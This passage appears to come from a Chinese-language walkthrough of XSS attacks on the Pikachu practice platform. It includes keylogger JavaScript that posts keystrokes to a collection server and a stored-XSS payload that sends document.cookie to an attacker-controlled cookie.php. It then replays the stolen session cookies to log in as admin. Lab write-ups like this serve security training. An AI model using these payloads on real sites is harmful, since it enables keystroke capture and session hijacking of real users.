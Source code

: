 ```php
                alert("页面请求失败");
            }
        }
    }

    var postdate = xl;
    ajax.open("POST", "http://192.168.1.15/pkxss/rkeypress/rkserver.php",true);
    ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    ajax.setRequestHeader("Content-length", postdate.length);
    ajax.setRequestHeader("Connection", "close");
    ajax.send(postdate);
```



在 54 行处，我们需要把 `http://192.168.1.15/pkxss/rkeypress/rkserver.php` 改为自己的 Pikachu 平台地址：

`http://YOUR_IP_ADDRESS:PORT/pkxss/rkeypress/rkserver.php`，这个脚本是用于存储键盘输入。

然后写到：`<script src="http://YOUR_IP_ADDRESS:PORT/pkxss/rkeypress/rk.js"></script>`

![](http://img.wukaipeng.com/2023/1015-142720-image-20231015142720582.png)

然后进入 Pikachu 平台的 管理工具 » XSS 后台，然后查看「键盘记录」，现在只要存储型XSS 的留言板有键盘输入，就能够捕捉到：

![](http://img.wukaipeng.com/2023/1015-142945-image-20231015142945411.png)

## 平台利用



### 获取 Cookie

Pikachu 平台已经为我们提供了收集 Cookie 的脚本：`<script>document.write('<img src="http://YOUR_IP_ADDRESS:PORT/pkxss/xcookie/cookie.php? cookie='+document.cookie+'"/>')</script>`

![](http://img.wukaipeng.com/2023/1015-153622-image-20231015153622001.png)

模拟受害者登录后台，恶意代码被执行：

![](http://img.wukaipeng.com/2023/1015-153703-image-20231015153702933.png)

此时攻击者在后台看到 cookie 已经被收集上来了：

![](http://img.wukaipeng.com/2023/1015-153756-image-20231015153756287.png)

现在攻击者已经拿到 Cookie 了，那么就可以登录 Admin 端了，在另外的浏览器进入地址：`http://YOUR_IP_ADDRESS:PORT/vul/xss/xssblind/admin_login.php`

通过 Cookie Editor 这样的插件，攻击者把获取得到的 Cookie，包括 `ant[pw]`， `ant[uname]`，`PHPSESSID`， `security` 填写上去：

![](http://img.wukaipeng.com/2023/1015-161019-image-20231015161019465.png)

接着在地址栏再输入 `http://YOUR_IP_ADDRESS:PORT/vul/xss/xssblind/admin.php`，可以看到不会被重定向到 `../admin_login.php` 页面了，而是直接登录成功
